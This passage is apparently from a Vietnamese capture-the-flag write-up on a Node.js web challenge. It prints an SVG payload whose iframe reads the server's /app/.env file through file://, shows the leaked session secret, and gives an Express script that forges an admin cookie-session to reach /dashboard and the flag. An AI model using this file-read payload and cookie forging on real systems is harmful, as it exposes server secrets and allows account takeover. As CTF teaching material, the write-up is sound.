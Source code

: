 Sử dụng CVE trên để đọc source để biết flag nằm ở đâu và làm như thế nào để lấy flag.

Tiến hành đọc các file như: `/app/index.js`, `/app/database.js` và `/app/routes/index.js`

###### index.js
![Nội dung file index.js](https://i.imgur.com/81ozlhv.png)

- Biết được `key` để tạo cookie của `session` nằm ở `process.env.SESSION_SECRET_KEY` => có thể đọc được `SESSION_SECRET_KEY` này bằng cách tương tự như đã đọc file `index.js`
- Khi lấy được `SESSION_SECRET_KEY` thì có thể craft lại session theo ý mình muốn

Đoạn code trong file `routes/index.js` cho biết được sẽ nhận được flag khi đăng nhập với account `admin`.

![Điều kiện để in ra flag](https://i.imgur.com/OHUHqsV.png)

### Tóm lại
Để có thể giải quyết bài này thì sẽ làm như sau:
- Đọc file `/app/.env` để lấy được `SESSION_SECRET_KEY`
- Craft lại session của admin sau đó truy cập vô `/dashboard` để lấy flag

### Exploit steps
- Đọc file `.env` để lấy `SESSION_SECRET_KEY`
```
{"svg":"<svg-dummy></svg-dummy><iframe src='file:///app/.env' width='100%' height='1000px'></iframe><svg viewBox='0 0 240 80' height='1000' width='1000' xmlns='http://www.w3.org/2000/svg'><text x='0' y='0' class='Rrrrr' id='demo'>data</text></svg>"}
```
**SESSION_SECRET_KEY**: `5921719c3037662e94250307ec5ed1db`

Craft lại session với `username` là `admin`:
```
const express = require('express')
const app = express()
const session = require("cookie-session")

app.use(session({
    name: 'session',
    keys: ['5921719c3037662e94250307ec5ed1db']
}))

app.get('/', (req, res) => {
    req.session.username = "admin"
    res.send("hello")
})

app.listen(8081)
```
- Host file này sau đó truy cập `http://[YOUR_VPS]:8081/` để lấy `session` và `session_sig`.

![Craft được session và session_sig của admin](https://i.imgur.com/i9JpsfG.png)

- Truy cập vào `/dashboard` với session admin đã craft được.
